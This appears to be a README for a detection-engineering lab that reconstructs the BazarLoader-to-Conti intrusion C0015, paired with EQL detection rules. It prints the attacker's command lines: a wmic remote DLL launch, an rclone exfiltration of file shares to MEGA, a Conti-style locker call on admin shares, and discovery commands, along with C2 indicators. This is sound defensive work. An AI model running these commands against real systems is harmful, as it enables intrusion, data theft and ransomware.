


# C0015 - BazarLoader to Conti, reconstructed for detection engineering


Between 2 and 6 August 2021, an operator entered a corporate network through a weaponised Word
document, moved a beacon into `winlogon.exe`, pivoted to a backup server through WMI, exfiltrated data
to MEGA with `rclone` over two evenings, and encrypted the estate with Conti from a batch file. The
DFIR Report published the case as C0015. This repository reconstructs the campaign as an instrumented
lab: three Windows hosts on a host-only segment, a Sliver C2 that replaces Cobalt Strike, the same
process ancestry and the same command lines, and a detection suite that maps each stage to the
telemetry it leaves behind.

The purpose of the reconstruction is narrow. Every technique in the campaign is reproduced with real
tooling rather than with a signature stub, so the resulting events are the events a real detection
stack would receive: cross-process thread creation into a system process, a service host spawning a
module loader, a provider host spawning a loader through WMI, a cloud transfer with throttling flags,
a locker binary invoked with a fixed argument set. The rules in this repository were written against
those events and are stored beside the technique that produces them.

## Table of contents

- [The original campaign](#the-original-campaign)
  - [Timeline](#timeline)
  - [Process ancestry](#process-ancestry)
  - [Technically significant behaviour](#technically-significant-behaviour)
  - [What the report does not establish](#what-the-report-does-not-establish)
- [The lab](#the-lab)
  - [Delivery and proxy execution](#delivery-and-proxy-execution)
  - [Stage hosting and the dead fallback](#stage-hosting-and-the-dead-fallback)
  - [Injection into winlogon](#injection-into-winlogon)
  - [Discovery and share enumeration](#discovery-and-share-enumeration)
  - [Lateral movement to the backup server](#lateral-movement-to-the-backup-server)
  - [Injection into the service host](#injection-into-the-service-host)
  - [Interactive access to the backup server](#interactive-access-to-the-backup-server)
  - [Collection and exfiltration](#collection-and-exfiltration)
  - [Impact](#impact)
  - [Lab process ancestry](#lab-process-ancestry)
- [Repository structure](#repository-structure)
- [Detection opportunities](#detection-opportunities)
- [How to run the lab](#how-to-run-the-lab)
- [Credits and references](#credits-and-references)

## The original campaign

### Timeline

**Day 1.** A password-protected archive delivered by phishing contains a document named
`decree-08.03.2021.doc`. The file extension says Word 97-2003; the content is Word 2003 XML with an
embedded VBA project. The document asks the user to enable macros. Once enabled, the macro writes an
HTML Application, `compareforfor.hta`, into the user profile and starts it.

`mshta.exe` runs the HTA. The script mixes VBScript and JScript, decodes a base64 blob, and issues an
HTTP GET to `millscruelg[.]com` with query parameters shaped like a search result. The response is
written to `C:\Users\Public\compareForfor.jpg` and executed with `regsvr32.exe`. The file is a DLL; the
extension is an image.

The module is BazarLoader. It calls `64.227.65[.]60:443`, spawns `svchost.exe`, and queries
`myexternalip[.]com` for the network's public address. Two Cobalt Strike DLLs are then loaded through
`rundll32.exe` with `svchost.exe` as the parent. `D574.dll` never reaches its infrastructure: it
queries `volga.azureedge[.]net` repeatedly and receives a non-existent name. `D8B3.dll` connects to
`82.117.252.143` on port 80 and 443, using a Let's Encrypt certificate for `checkauj.com` and a
malleable profile whose GET and POST URIs are `/jquery-3.3.1.min.js` and `/jquery-3.3.2.min.js`. The
beacon sleeps sixty seconds with thirty-seven percent jitter.

`D8B3.dll` then allocates memory in `winlogon.exe` and creates a thread there. From that moment the
operator works inside a SYSTEM process. Discovery follows within the same hour: `tasklist /s`,
`net group "domain admins" /dom`, `net localgroup "administrator"`,
`nltest /domain_trusts /all_trusts`, `net view /all /domain`, per-host `net view \\host /all`, `ping`,
and `time`, each as its own `cmd.exe /C` invocation. `AdFind` is written to disk and never executed.

Share enumeration runs `Invoke-ShareFinder` through a download cradle and writes
`C:\ProgramData\found_shares.txt`. The file is created by the beacon process, not by PowerShell.

At 18:43 the operator pivots to the backup server:

```
cmd.exe /C wmic /node:<backup server> process call create "rundll32.exe C:\ProgramData\143.dll DllRegisterServer"
```

The DLL was written to `C:\ProgramData` first. On the target, `WmiPrvSE.exe` creates `rundll32.exe`,
which loads `143.dll` and calls the export. That beacon moves into
`svchost.exe -k UnistackSvcGroup -s CDPUserSvc`, the per-user service host. The first `rclone` round
starts at 19:45 and runs for about three hours against `Mega:DATA`.

**Day 2.** The operator connects to the backup server over RDP and opens the backup console. Task
Manager is started from the desktop; the resulting command line carries `/4`, the argument the GUI
passes when the Performance tab is opened.

**Day 4.** A second `rclone` round runs in the same evening window, reusing `--ignore-existing` so only
new files are transferred.

**Day 5.** A ping sweep establishes which hosts are reachable. AnyDesk is dropped into
`c:\users\<user>\Videos\` and started. ProcessHacker is placed in the root of `C:` and used against
`lsass.exe`; the report states the access as likely and does not confirm a dump. A batch file,
`locker.bat`, is then executed from the backup server. For each host it starts a locker binary against
the administrative share:

```
C:\<random>_locker.exe -m -net -size 10 -nomutex -p \\<TARGET>\C$
```

Encryption proceeds per host. A `readme.txt` is written into every affected directory. The operator
closes the run by listing `\\<TARGET>\C$` to confirm the result.

### Process ancestry



### Technically significant behaviour

**The handoff from loader to beacon.** BazarLoader is not the tool the operator uses. It exists to
place a second loader host and start the Cobalt Strike DLLs. The observable is a `svchost.exe` whose
children are `rundll32.exe` processes, one of which fails and one of which becomes the primary channel.

**Injection into `winlogon.exe`.** The beacon does not remain in the process that loaded it. Moving
into the logon process converts a user-level foothold into SYSTEM and changes the parent of every
subsequent command. This single step is what makes the discovery, the WMI pivot, and the RDP session
look the way they do.

**WMI as the pivot primitive.** `wmic process call create` with a `/node:` argument is a remote
execution path that needs no service installation and no file copy through a service manager. The
target-side observable is `WmiPrvSE.exe` spawning the loader. It is not WMI event subscription; no
filter, consumer, or binding is created.

**Injection into the per-user service host.** `CDPUserSvc` runs as the logged-on user, so the second
injection needs no privilege escalation. The host choice determines the network attribution: the
callback and the RDP socket belong to `svchost.exe`.

**Cloud exfiltration with throttling.** `rclone` against a MEGA remote, with a bandwidth ceiling and
seven parallel transfers, twice, in the same evening window. The ceiling keeps the transfer below
saturation, which is why it survives for hours without drawing attention.

**Impact from the backup server.** The batch file runs on the backup server and targets
`\\HOST\C$` for each host. The DC is not part of the target list.

### What the report does not establish

Two points are unresolved. The credential used for the WMI pivot has no documented origin: no LSASS
access is recorded before the pivot, and no credential material appears in the report. And the
ProcessHacker step is described as likely LSASS access rather than a confirmed dump.

The lab does not attempt to invent either. It provisions the pivot credential explicitly and records
that provisioning as a lab step, and it performs the LSASS dump for real so that the access mask, the
dump file, and the offline parsing are all observable. Both choices are stated in the technique
folders rather than presented as campaign evidence.

## The lab

The estate is three Windows hosts and one Linux host. DC01 provides AD DS and DNS. WS01 is the victim
workstation. FS01 is the backup server: the lateral target, the origin of the second beacon, the source
of the exfiltrated data, and the host that runs the impact batch file. The Linux host runs the C2 and
the staging services. The campaign separates the backup server from the data server; with a single
server in the estate, the lab consolidates both roles and keeps the transfer command, the remote name,
and the destination service unchanged.

Sliver replaces Cobalt Strike. The implants are Go builds with an exported `DllRegisterServer`, so the
module that `regsvr32` and `rundll32` load has the same properties as the campaign DLLs: unsigned, no
version metadata, loaded by a signed Windows binary from a user-writable directory.

### Delivery and proxy execution

The delivery document carries the second stage as base64 and writes it at open time. The macro starts
`cmd.exe /c mshta`, which yields the three-level edge `WINWORD.EXE -> cmd.exe -> mshta.exe`. The HTA
keeps the three COM objects of the campaign - `MSXML2.XMLHTTP`, `ADODB.Stream`, and `WScript.Shell` -
downloads the module to `C:\Users\Public`, and registers it with `regsvr32`.

Telemetry: process creation for the chain, file creation for the HTA and the module, and a module load
from a user-writable path with no valid signature.

- [`techniques/macro-document-delivery/`](techniques/macro-document-delivery/)
- [`techniques/hta-proxy-execution/`](techniques/hta-proxy-execution/)
- [`techniques/regsvr32-module-execution/`](techniques/regsvr32-module-execution/)

### Stage hosting and the dead fallback

The document is the only human action. The macro writes the HTA, the HTA downloads a loader and runs it
with `regsvr32`, and the loader overwrites `C:\ProgramData\C0015\updater.exe`. A scheduled task that
the environment already runs as SYSTEM starts that binary, so the chain continues with the system token
without the user holding any administrative group membership.

The task and its writable directory are the privilege the source report never explains; they are
declared in [`gap/README.md`](gap/README.md).

Telemetry: the `WINWORD.EXE -> cmd.exe -> mshta.exe -> regsvr32.exe` chain, a write into `ProgramData`
by the user, a process created by the task scheduler from that path, and the
`svchost.exe -> rundll32.exe` edge once the stager starts the implant.

- [`techniques/bazar-svchost-stage/`](techniques/bazar-svchost-stage/)

### Injection into winlogon

From the loader session running as SYSTEM, the implant migrates into `winlogon.exe`. The migration
builds a new implant from the active configuration, so the session keeps its C2 profile and callback
interval while its host process becomes the logon process. The original session is retained as a
fallback until the new one has executed a command.

Telemetry: a cross-process thread creation whose source is `rundll32.exe` and whose target is
`winlogon.exe`; a handle request against `winlogon.exe` with rights that permit memory writes; and,
afterwards, `cmd.exe` or `powershell.exe` with `winlogon.exe` as the parent and `NT AUTHORITY\SYSTEM`
as the user.

- [`techniques/winlogon-injection/`](techniques/winlogon-injection/)

### Discovery and share enumeration

Discovery runs one command per process from the winlogon session, so the parent image stays
`winlogon.exe` and each shell is short-lived. Share enumeration uses the same cradle shape as the
campaign: an `IEX` download of PowerView, `Invoke-ShareFinder -CheckShareAccess -Verbose`, and output
written as ASCII to `C:\ProgramData\found_shares.txt`.

The lab AD is populated with enough users, groups, and shares for the enumeration to return a usable
map; an empty directory would make the target-selection step impossible to exercise.

Telemetry: `winlogon.exe` as the parent of `cmd.exe`, one process per command; the PowerShell command
line containing both a download cradle and the function name; script block logging with the same
content; and the file creation for the enumeration output.

- [`techniques/lolbin-discovery/`](techniques/lolbin-discovery/)
- [`techniques/share-enumeration/`](techniques/share-enumeration/)

### Lateral movement to the backup server

The pivot no longer relies on a machine account. The operator sprays the weak `helpdesk` account, which
belongs to a group with local administrator rights on both hosts, and uses the recovered password to
write `\\FS01\C$\ProgramData\143.dll` and to create the loader through WMI:

```
cmd.exe /C wmic /node:FS01 process call create "rundll32.exe C:\ProgramData\143.dll DllRegisterServer"
```

`wmic process call create` splits its argument on commas. The comma form returns `ReturnValue 9` and
creates nothing; the space form above is required and is what renders in the process command line.

Telemetry: the source-side command line; a network logon and special-privilege assignment on the
target; share access for the file copy; the `WmiPrvSE.exe -> rundll32.exe` edge; and the unsigned
module load in the new process.

- [`techniques/wmi-remote-process-creation/`](techniques/wmi-remote-process-creation/)

### Injection into the service host

The pivot beacon moves into the instance whose command line carries
`-k UnistackSvcGroup -s CDPUserSvc`. Migration is by PID, because several service host instances run
on the host and name resolution would land in an arbitrary one. The instance runs as the interactive
user, so the injection needs no additional privilege.

Telemetry: cross-process thread creation from `rundll32.exe` into `svchost.exe`; the module load that
precedes it; and an outbound connection owned by the service host.

- [`techniques/svchost-injection/`](techniques/svchost-injection/)

### Interactive access to the backup server

The implant starts a SOCKS proxy and the RDP client connects through it. The socket to port 3389 is
therefore owned by the implant, not by a client on the operator workstation. Inside the session the
operator opens the backup console and starts Task Manager from the desktop, which produces
`taskmgr.exe /4` with `explorer.exe` as the parent.

Telemetry: an outbound connection to 3389 from the implant process; a type 10 logon on the target with
a workstation name that is not an estate member; and the GUI-launched Task Manager command line.

- [`techniques/rdp-lateral-movement/`](techniques/rdp-lateral-movement/)

### Collection and exfiltration

Two transfer rounds, several days apart, in the same evening window. The command keeps the campaign
flag set:

```
rclone.exe copy --max-age 2y "\\FS01\Shares" Mega:DATA -q --ignore-existing --auto-confirm --multi-thread-streams 7 --transfers 7 --bwlimit 10M
```

The destination is a real MEGA account. The corpus is synthetic and sized so the transfer has the same
shape at the same bandwidth ceiling, which is shorter than three hours but identical in command line,
destination, and concurrency.

Telemetry: the process command line; egress to the MEGA API; and the share reads that precede the
transfer.

- [`techniques/rclone-exfiltration/`](techniques/rclone-exfiltration/)

### Impact

`locker.bat` is rendered per target host and executed from the backup server. The locker binary
accepts the campaign argument set - `-m -net -size 10 -nomutex -p \\HOST\C$` - renames files in the
allowlisted corpus, and writes `readme.txt` into each directory it touches. No content is encrypted
and no key material is generated; the rename and the note are the observables, and the corpus is
restored from a hash-checked copy afterwards.

Telemetry: `cmd.exe /c locker.bat` followed by the locker process and its argument list; `readme.txt`
creation across several directories in a short window; and write access to the administrative share
path rendered in the argument.

- [`techniques/conti-style-impact/`](techniques/conti-style-impact/)

### Lab process ancestry



## Repository structure

```
C0015-detection-engineering-lab/
├── README.md
├── CREDITS.md
├── LICENSE
├── detections/
│   ├── eql/                     rule that spans two stages
│   └── README.md                index, field assumptions, upstream references
├── docs/                        topology, run order, ATT&CK coverage
├── gap/                         what the campaign does that this lab substitutes or omits
├── killchain/                   the executed chain end to end, with telemetry and rule results
├── infra/                       hosts, accounts, DNS design, C2 layout, Sysmon profiles
│   ├── c2/                      listeners, nginx front, implant generation
│   ├── dns/                     zone design
│   ├── scripts/                 account and share provisioning
│   └── sysmon/                  balanced and capture profiles
├── techniques/
│   ├── macro-document-delivery/
│   │   ├── README.md            what the technique is and how the lab reproduces it
│   │   ├── payload/             benign payload or surrogate source
│   │   ├── tools/               launchers, wrappers, verification scripts
│   │   └── telemetry/           expected events and fields
│   ├── hta-proxy-execution/
│   ├── regsvr32-module-execution/
│   ├── bazar-svchost-stage/
│   ├── winlogon-injection/
│   ├── svchost-injection/
│   ├── wmi-remote-process-creation/
│   ├── lolbin-discovery/
│   ├── share-enumeration/
│   ├── rdp-lateral-movement/
│   ├── anydesk-deployment/
│   ├── processhacker-lsass-access/
│   ├── rclone-exfiltration/
│   └── conti-style-impact/
```

Each folder under `techniques/` covers one behaviour rather than one tool, so the folder name still
describes the activity after a tool substitution. Inside a folder, `payload/` holds what executes,
`tools/` holds what the operator runs around it, `telemetry/` states which events and fields the
behaviour produces. The rules themselves live in `detections/eql/`, one behaviour each. A folder without a
standalone artifact keeps a short note explaining why instead of omitting the directory.

## Detection opportunities

| Rule | Stage | Telemetry |
|---|---|---|
| [`01-office-spawns-script-host`](detections/eql/01-office-spawns-script-host.eql) | document to script host | process creation, parent image |
| [`02-script-host-starts-loader`](detections/eql/02-script-host-starts-loader.eql) | HTA to proxy loader | process creation, parent image |
| [`03-loader-loads-unsigned-module`](detections/eql/03-loader-loads-unsigned-module.eql) | loader to unsigned module | image load, signature status, path |
| [`04-injection-into-system-process`](detections/eql/04-injection-into-system-process.eql) | injection | remote thread creation |
| [`05-lsass-credential-access`](detections/eql/05-lsass-credential-access.eql) | credential access | process access, granted access |
| [`06-wmi-remote-creation`](detections/eql/06-wmi-remote-creation.eql) | lateral movement, source side | command line |
| [`07-wmi-hosted-loader`](detections/eql/07-wmi-hosted-loader.eql) | lateral movement, target side | process creation, parent image |
| [`08-service-host-starts-loader`](detections/eql/08-service-host-starts-loader.eql) | service host to loader | process creation, path |
| [`09-ntlm-logon-with-privileges`](detections/eql/09-ntlm-logon-with-privileges.eql) | credential use | logon and privilege events |
| [`11-cloud-transfer`](detections/eql/11-cloud-transfer.eql) | exfiltration | command line |
| [`12-ransom-note`](detections/eql/12-ransom-note.eql) | impact | file creation |
| [`13-rdp-interactive-logon`](detections/eql/13-rdp-interactive-logon.eql) | interactive access | logon type 10 |
| [`14-task-manager-from-shell`](detections/eql/14-task-manager-from-shell.eql) | operator habit | process creation, parent image |
| [`15-password-spray`](detections/eql/15-password-spray.eql) | credential access | failed logons then success |
| [`16-lsass-protection-removed`](detections/eql/16-lsass-protection-removed.eql) | defence evasion | registry write |
Every rule is an EQL query for Elastic Security. The index, the field assumptions, and the two
configuration dependencies (Sysmon 8 and the ImageLoad scope) are in
[`detections/README.md`](detections/README.md). The upstream SigmaHQ rules that were read while
writing these queries, with links, are listed in
[`docs/sigma-reference.md`](docs/sigma-reference.md).

The cheapest reliable signal in the whole chain is the parent edge. A shell whose parent is
`winlogon.exe` has no legitimate cause on a workstation, and the rule that matches it does not depend
on a module hash, a directory, or a tool name:

```eql
process where event.code == "1"
  and process.parent.name == "winlogon.exe"
  and process.name : ("cmd.exe", "powershell.exe", "rundll32.exe",
                      "net.exe", "net1.exe", "nltest.exe", "whoami.exe", "wmic.exe")
```

Network detection is not part of the rule set here. The addresses change between runs, so a rule keyed
on an IP or a JA3 value ages out; the durable network facts are the URI pair, the certificate subject,
and the unresolved fallback name, all of which are recorded in `infra/c2/` and in the technique
folders for use in proxy and TLS telemetry.

## How to run the lab

### Prerequisites

| Component | Requirement |
|---|---|
| Hypervisor | VMware Workstation or equivalent, host-only network `192.168.50.0/24` |
| Hosts | DC01, WS01, FS01 as Windows 10 or Server 2019, one Linux host |
| C2 | Sliver server and client |
| Telemetry | Sysmon 15.x with the profile in `infra/sysmon/`, Elastic Agent with Security and PowerShell channels |
| Tooling | `rclone`, ProcessHacker, Mimikatz, portable AnyDesk, mingw-w64 for the service stub |
| Cloud | one MEGA account for the exfiltration stage |

### Setup

1. Apply the Sysmon profile to WS01 and FS01 and confirm events 1, 3, 7, 8, 10, 11, and 22 arrive.
2. Provision accounts and shares: `infra/scripts/New-LabAccounts.ps1 -BackupServer FS01`.
3. Apply the DNS zones from `infra/dns/zone-plan.md` and remove forwarders on DC01.
4. Issue the certificates and start the listeners per `infra/c2/README.md`; place `nginx-c0015.conf`.
5. Build the implants, the service stub, the HTA, the delivery document, and the locker binary.
6. Snapshot all three hosts.

### Run order

`docs/run-order.md` holds the ordered sequence with the check that confirms each step. The short form:
delivery and proxy execution, stage hosting, injection into `winlogon.exe`, discovery, share
enumeration, WMI pivot to the backup server, injection into the service host, RDP, two transfer rounds,
and impact followed by a verified restore.

### Expected artifacts

| Artifact | Location |
|---|---|
| Delivery document and HTA | victim profile on WS01 |
| Masqueraded module | `C:\Users\Public\compareForfor.jpg` |
| Discovery output | `C:\ProgramData\found_shares.txt` |
| Staged pivot beacon | `C:\ProgramData\143.dll` on FS01 |
| LSASS dump | `C:\ProgramData\lsass.dmp` on FS01, removed after the run |
| Ransom note | `readme.txt` in each corpus directory, removed by rollback |
| Run record | command output, rule results, and restore verification |

## Credits and references

- The DFIR Report, *CONTInuing the Bazar Ransomware Story*, 29 November 2021 -
  <https://thedfirreport.com/2021/11/29/continuing-the-bazar-ransomware-story/>. The campaign
  narrative, the process ancestry, the command lines, and the indicator set in this repository are
  derived from that report.
- MITRE ATT&CK campaign C0015 - <https://attack.mitre.org/campaigns/C0015/>
- Sliver, BishopFox - <https://github.com/BishopFox/sliver>. Used as the C2 framework in place of
  Cobalt Strike.
- Sysmon, Microsoft Sysinternals - <https://learn.microsoft.com/sysinternals/downloads/sysmon>
- rclone - <https://rclone.org/>
- Process Hacker - <https://processhacker.sourceforge.io/>
- Mimikatz, Benjamin Delpy - <https://github.com/gentilkiwi/mimikatz>
- PowerView, PowerSploit - <https://github.com/PowerShellMafia/PowerSploit>
- AnyDesk - <https://anydesk.com/>
- Elastic Security - <https://www.elastic.co/security>

### Defensive use

The material in this repository exists for defensive research and detection engineering. The payloads
are benign surrogates, the C2 is a lab deployment, the corpus is synthetic, and the impact stage
renames files without encrypting them. The infrastructure is confined to a host-only segment. The
campaign hostnames are resolved by a local zone and never reach the internet. Nothing here is intended
for use outside an isolated environment that the operator owns.

Licensed under the MIT licence. See [LICENSE](LICENSE).


